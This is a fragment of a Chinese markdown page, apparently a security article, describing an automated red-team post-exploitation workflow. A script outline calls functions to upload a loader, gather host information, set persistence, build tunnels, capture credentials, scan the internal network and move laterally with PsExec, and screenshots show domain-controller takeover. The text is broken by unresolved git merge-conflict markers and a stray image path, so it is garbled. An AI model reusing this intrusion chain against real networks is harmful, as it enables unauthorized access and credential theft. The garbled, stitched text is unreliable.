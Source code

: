 上线提醒 > 上传 Loader > 自动信息收集 > 权限维持 > 上传其他 PE > 构建隧道 > 获取凭据 > 探测内网 > 横向移动

```plain
=======
[![](assets/1710206030-d211e45f8cbedd09a25a91003773685d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240311173552-c0d27bb4-df8a-1.png)

上线提醒 > 上传 Loader > 自动信息收集 > 权限维持 > 上传其他 PE > 构建隧道 > 获取凭据 > 探测内网 > 横向移动

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
http_get($onlineUrl);
    UP_Loader($1, $LoaderPath, $LoaderPath);
    PC_Getinfo($1);
    SC_Command($1, $LoaderPath);
    UP_Tunnel($1, $TunnelPath, $TunnelPath);
    UP_Hbdata($1, $HbdPath, $HbdPath);
    UP_Scaner($1, $FscanPath, $FscanPath);
    Run_Tunnel($1);
    PassCapture($1);
    Run_Scanner($1, $internalIP);
    PsExec($1);
```

自动构建隧道（示例）

<<<<<<< HEAD
[![](assets/1710898890-f2c7bd5e71c1f1f26eb3f058936fc715.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240311173605-c8660292-df8a-1.png)

自动横向域控（示例）

[![](assets/1710898890-82abe012faf383520a5da525cc6f74e3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240311173615-ce335576-df8a-1.png)
=======
[![](assets/1710206030-f2c7bd5e71c1f1f26eb3f058936fc715.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240311173605-c8660292-df8a-1.png)